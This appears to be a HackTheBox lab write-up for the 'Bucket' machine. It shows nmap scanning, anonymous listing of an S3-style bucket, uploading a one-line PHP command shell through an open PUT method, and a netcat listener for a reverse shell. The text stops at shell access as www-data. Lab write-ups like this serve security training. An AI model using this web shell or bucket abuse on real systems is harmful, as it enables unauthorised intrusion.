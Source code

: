 <h2>AWS lab on HackTheBox called ‘Bucket’</h2>

<h3>Initial Access:</h3>
Step 1: nmap -Pn 10.10.10.212 -p- --min-rate=5000|awk -F '/' '/open/ {print $1}'

Output returns open ports 22 and 80.

Step 2: nmap -Pn 10.10.10.212 --min-rate=5000 -p 22,80 -sCV -oN nmap-htb-buckets 

Output returns:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/651a96ff-1389-4e6a-8db0-786d0045cf75)

Step 3: Nmap output shows a domain name of bucket.htb.  Enter this into /etc/hosts file so that we can access this domain name: 10.10.10.212 bucket.htb

Step 4: Visit the site http://bucket.htb.  Looking over the source code on the site shows:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/35ca4db5-919d-4916-923d-874e11e55532)

This shows a source at a subdomain of http://s3.bucket.htb.  

Enter this subdomain into /etc/hosts: 10.10.10.212 bucket.htb s3.bucket.htb

Step 5: The subdomain of s3.bucket.htb indicates that this is an aws s3 bucket.  Let’s check if we can list any s3 buckets with anonymous access using awscli: aws --no-sign-request s3 ls --endpoint-url http://s3.bucket.htb

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/f5597f92-9daf-4364-a5fe-649361cdc27d)

This return shows that there is a s3 bucket called ‘adserver’.

Step 6: List the ‘adserver’ s3 bucket: aws --no-sign-request s3 --endpoint-url http://s3.bucket.htb ls s3://adserver

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/92959525-b656-4c2b-85fe-47f5258346d7)

Download ‘index.html’ listed in the bucket: aws s3 --no-sign-request --endpoint-url http://s3.bucket.htb  cp s3://adserver/index.html .

Looking at index.html confirms that this bucket is listing the website http://bucket.htb.  

Step 7: Check for more information on what we can do on this s3 bucket by running the ‘OPTIONS’ request method on the s3.bucket.htb endpoint:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/f4bc41c8-224e-411d-a556-852ef6122026)

We see from this that we can use the ‘PUT’ request method which is used to upload files.  

Step 8: Upload a php command shell (<?php system($_GET[“cmd”]); ?>) to the bucket: aws s3 --no-sign-request --endpoint-url http://s3.bucket.htb cp /home/kali/Downloads/test.php s3://adserver/

Navigate to the uploaded file: http://bucket.htb/test.php?cmd=whoami

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/108b6033-cda6-431b-84af-d15f3514f864)

Step 9: Open up a netcat listener: nc -lvnp 4444

Next, upload a php webshell using the same command used in step 8.  Then navigate to the uploaded web shell to get a shell as user www-data.






